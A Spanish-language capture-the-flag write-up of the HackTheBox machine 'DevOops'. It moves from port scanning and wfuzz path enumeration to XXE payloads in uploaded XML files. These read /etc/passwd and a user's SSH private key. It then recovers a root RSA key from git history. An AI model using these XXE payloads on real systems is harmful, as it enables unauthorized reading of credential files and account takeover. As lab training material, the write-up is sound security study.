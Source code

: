 ```yaml
---
layout      : post
title       : "DevOops - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/DevOops-HackTheBox/DevOops.webp
optimized_image : /assets/images/HTB/DevOops-HackTheBox/DevOops.webp
category    : [ htb ]
tags        : [ Linux ]
description: Máquina Linux de nivel MEDIUM en la que explotaremos la vulnerabilidad XXE para leer archivos generando un archivo .xml y escalaremos privilegios a través de un rsa.
---
```


Máquina Linux de nivel MEDIUM en la que explotaremos la vulnerabilidad XXE para leer archivos generando un archivo .xml y escalaremos privilegios a través de un rsa.

![](/assets/images/HTB/DevOops-HackTheBox/DevOops2.webp)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

![](/assets/images/HTB/DevOops-HackTheBox/DevOops-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Burpsuite](#burpsuite).
 5. [Escalada de Privilegios](#privesc). 
    * [Git](#git).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

Para comenzar lanzo la herramienta WhichSystem para identificar ante que sistema operativo nos enfrentamos.

![](/assets/images/HTB/DevOops-HackTheBox/WhichSystem.webp)

Ya se que estamos ante una máquina Linux, asique a continuación escanearé los puertos existentes en la máquina.

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Tenemos el puerto 22(ssh) y el puerto 5000 (upnp).

Pero necesito más información del puerto 5000 asique escanearé los puertos de forma más avanzada.

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora ya tenemos algo más de información, asique procedo a enumerar el servidor web.

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Accedo desde el navegador al servidor web.

![](/assets/images/HTB/DevOops-HackTheBox/web1.webp)

Parece que el sitio está en desarrollo, pero no hay nada interesante, asique voy a fuzzear rutas.

Usaré la herramienta wfuzz para enumerar rutas en el servidor web.

```bash
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.91:5000/FUZZ --hl=4
```

![](/assets/images/HTB/DevOops-HackTheBox/wfuzz.webp)

* upload
* feed

En la ruta feed no hay nada que pueda servirme.

Pero en la ruta upload hay un panel de subida de archivos

![](/assets/images/HTB/DevOops-HackTheBox/web2.webp)

# Explotación [#](explotacion) {#explotacion}

## Burpsuite [🔥](#burpsuite) {#burpsuite}

Pruebo a subir una reverse shell en php y capturar la petición con Burpsuite.

![](/assets/images/HTB/DevOops-HackTheBox/revphp.webp)

Pero no ocurre nada, aunque si nos fijamos en el servidor web veremos esto.

> XML elements: Author, Subject, Content

Debemos subir un archivo XML que contenga los campos Author, Subject y Content.

Si hablamos de XML... se me ocurre XXE, asique buscaré información sobre la vulnerabilidad XXE.

Buscando encuentro información en la web de OWASP.

[https://owasp.org/www-community/vulnerabilities](https://owasp.org/www-community/vulnerabilities)

![](/assets/images/HTB/DevOops-HackTheBox/XXE.webp)

La sintaxis del archivo será la siguiente,añadiremos los campos Author, Subject y añadiremos el campo Content.


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

Subimos el archivo y capturamos la petición con Burp.

Enviamos la petición al Repeater y la enviamos haciendo click en send.

![](/assets/images/HTB/DevOops-HackTheBox/Burp1.webp)

Y como vemos tenemos el archivo passwd para leer.

Encuentro varios usuarios

```bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```

El más destacable es _roosa_, asique igual que he leido el archivo passwd intento leer el archivo id_rsa del usuario roosa para poder conectarme por ssh.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id-rsa" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

![](/assets/images/HTB/DevOops-HackTheBox/Burp2.webp)

Y ahí lo tenemos, asique me lo copio a un archivo y le asigno los permisos con `chmod 400 id_rsa`.

Una vez hecho, me conecto por ssh.

![](/assets/images/HTB/DevOops-HackTheBox/ssh.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios [#](privesc) {#privesc}

## Git[👽](git) {#git}

Ahora toca escalar privilegios para leer la flag root, pero para eso debemos convertirnos en el usuario root.

Enumerando encuentro carpeta .git en la ruta /home/roosa/work/blogfeed/.git asique pruebo con el comando `git log -r` a ver que obtenemos. 

El comando git log muestra todas las commits en el historial del repositorio. 

![](/assets/images/HTB/DevOops-HackTheBox/git.webp)

> Reverted accidental commit with proper key

Dato curioso que decido mirar, asique si ejecuto `git log -p 6`...

![](/assets/images/HTB/DevOops-HackTheBox/git2.webp)

Tenemos dos claves rsa, una en rojo y la otra en verde, creo que debido a un error revirtieron las claves rsa, por lo tanto la roja es la clave antigua asique pruebo a copiarla y usarla para conectarme por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/rsa.webp)

Una vez lo tenemos copiado en un archivo le asigamos los permisos con `chmod 600 id_rsa2` y nos logueamos por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/root.webp)

👨🏻‍💻Y ya hemos pwneado la máquina DevOops👨🏻‍💻

![](/assets/images/HTB/DevOops-HackTheBox/gif.gif)